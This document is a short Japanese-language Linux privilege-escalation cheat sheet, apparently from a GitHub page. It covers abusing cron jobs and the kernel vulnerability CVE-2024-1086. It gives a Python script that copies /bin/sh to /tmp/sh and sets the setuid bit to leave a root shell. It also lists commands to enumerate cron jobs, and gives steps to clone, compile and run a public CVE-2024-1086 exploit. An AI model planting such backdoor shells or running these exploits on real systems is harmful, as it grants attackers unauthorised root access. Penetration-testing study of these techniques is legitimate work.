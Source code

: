 
## Cron Job
### Pythonで書かれているファイルに付与する例

以下のPythonコードを実行した後、`./sh`を実行します。

```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('cp /bin/sh /tmp/sh ')
        os.system('chmod u+s /tmp/sh ')
except:
        sys.exit()
```

このコードは、`/bin/sh`を`/tmp/sh`にコピーし、`setuid`ビットを設定することで、`/tmp/sh`を実行するときに所有者の権限で実行されるようにします。

---

### Cronジョブの検出

Cronジョブを確認するために、以下のコマンドを使用します。

#### `/etc/crontab`ファイルの内容を表示
```bash
cat /etc/crontab
```

#### 現在のユーザーのCronジョブを表示
```bash
crontab -l
```

#### pspyツールの利用
`pspy`は、Linux上でリアルタイムに発生しているアクティビティを監視するための便利なツールです。

---
### 既知の脆弱性を利用する
#### CVE-2024-1086
CVE-2024-1086に関する詳細情報は以下のリンクから確認できます。
##### 脆弱性の概要
[CVE-2024-1086](https://www.cve.org/CVERecord?id=CVE-2024-1086)

---

##### musl-gccのインストール

以下の手順で`musl-gcc`をインストールします。`musl-gcc`は、Musl libc向けのGCCコンパイラです。

```bash
sudo apt update
sudo apt install musl-tools
```

---

##### PoCのインストール

次に、CVE-2024-1086のPoC（概念実証）をインストールします。

```bash
git clone https://github.com/Notselwyn/CVE-2024-1086
cd CVE-2024-1086
make
```

---

##### PoCの実行

インストール後、以下のコマンドでPoCを実行します。

```bash
./exploit
```

